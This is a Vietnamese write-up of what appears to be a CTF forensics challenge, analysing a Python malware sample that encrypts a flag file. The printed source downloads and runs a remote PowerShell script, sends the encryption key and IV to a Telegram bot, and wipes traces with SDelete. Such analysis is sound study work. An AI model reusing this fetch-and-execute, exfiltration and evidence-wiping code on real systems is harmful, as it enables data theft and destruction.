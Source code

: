 ## Phân tích malware

Nhìn chung thì cái malware này sẽ tải file `ps.ps1` từ link `https://raw.githubusercontent.com/TMQrX/temp/master/Qwertyu.ps1` và file `sdelete.exe` từ sysinternals rồi tạo thư mục `temp\encrypt` để chứa file `C:\\flag.txt` sau khi mã hoá

```py
current_dir = os.path.dirname(os.path.abspath(__file__))
ps_script_url = 'https://raw.githubusercontent.com/TMQrX/temp/master/Qwertyu.ps1'
ps_script_path = os.path.join(current_dir, 'ps.ps1')
sdelete_zip_url = 'https://download.sysinternals.com/files/SDelete.zip'
sdelete_zip_path = os.path.join(current_dir, 'SDelete.zip')
sdelete_exe_path = os.path.join(current_dir, 'sdelete.exe')
flag_file_path = 'C:\\flag.txt'
temp_encrypt_folder = os.path.join(os.getenv('TEMP'), 'encrypt')

def download_file(url, destination):
    response = requests.get(url)
    with open(destination, 'wb') as file:
        file.write(response.content)

def extract_sdelete(zip_path, extract_to):
    with zipfile.ZipFile(zip_path, 'r') as zip_ref:
        zip_ref.extractall(extract_to)
```

Vậy mục tiêu là tìm cách nào đó để giải mã file `flag.txt` này nhưng khi tìm trong thư mục temp lại không thấy `encrypt` đâu, đó là bởi vì sau khi thực hiện code powershell trong `ps.ps1` malware đã dùng `sdelete.exe` cùng với 1 vài lệnh powershell khác để xoá mọi thứ từ thư mục `encrypt` cho đến trong thùng rác và bao gồm chính file `flag.txt`

```py
def execute_powershell_script(script_path):
    process = subprocess.run(['powershell.exe', '-File', script_path], capture_output=True, text=True)
    output = process.stdout.splitlines()
    if len(output) >= 2:
        cee = output[0].strip()
        vee = output[1].strip()
        return (cee, vee)
    return (None, None)

def send_to_telegram(key, iv, token, chat_id):
    message = f'Key: {key}\nIV: {iv}0'
    url = f'https://api.telegram.org/bot{token}0/sendMessage'
    data = {'chat_id': chat_id, 'text': message, 'protect_content': True}
    response = requests.post(url, data=data)

def securely_delete_files(ps_script_path, flag_file_path):
    if os.path.exists(ps_script_path):
        subprocess.run([sdelete_exe_path, ps_script_path], check=True)
    if os.path.exists(flag_file_path):
        subprocess.run([sdelete_exe_path, flag_file_path], check=True)

def delete_encrypt_folder(folder_path):
    if os.path.exists(folder_path):
        for root, dirs, files in os.walk(folder_path, topdown=False):
            for file in files:
                file_path = os.path.join(root, file)
                move_to_recycle_bin(file_path)
            for dir in dirs:
                dir_path = os.path.join(root, dir)
                move_to_recycle_bin(dir_path)
        move_to_recycle_bin(folder_path)

```